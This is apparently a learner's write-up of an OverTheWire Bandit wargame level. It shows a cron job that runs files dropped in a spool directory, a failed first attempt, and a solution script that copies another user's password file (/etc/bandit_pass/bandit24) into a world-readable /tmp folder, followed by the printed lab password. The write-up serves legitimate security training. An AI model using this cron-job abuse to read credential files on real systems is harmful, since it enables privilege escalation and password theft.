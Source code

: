 ```bash
myname="bandit24"

cd /var/spool/$myname
pwd
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Where I get stuck is in modifying the script to execute commands in the `var/spool/bandit24` directory. I get an error message stating that `.*` can't be executed, meaning that the bash script is not able to see all the contents in the directory, or else the `.*` would have expanded to all the files in the directory. I'm guessing this occurs because I do not have read access to the directory, but I do have write and execute access to it.

```bash
bandit23@bandit:~$ /tmp/beto/test.sh
/var/spool/bandit24
Executing and deleting all scripts in /var/spool/bandit24:
Handling *
stat: cannot stat './*': No such file or directory
Handling .*
stat: cannot stat './.*': No such file or directory
```

After seeing the beginning of a tutorial, I understand what needs to be done. We do not need to recreate the script. We need to send a copy of a bash script we want to execute in the `/var/spool/bandit24` directory to copy the password of `bandit24` to the directory we want.

```bash
cp /etc/bandit_pass/bandit24 /tmp/beto/bandit24
chmod 777 /tmp/beto/bandit24
```

Also make sure to `chmod 777` both `/tmp/beto/` and `test.sh` so `bandit24` can execute the file given to it and has write permission for the temp directory you are working in.

```bash
bandit23@bandit:/tmp/beto$ cat bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## [Level 24 -> Level 25](https://overthewire.org/wargames/bandit/bandit25.html)
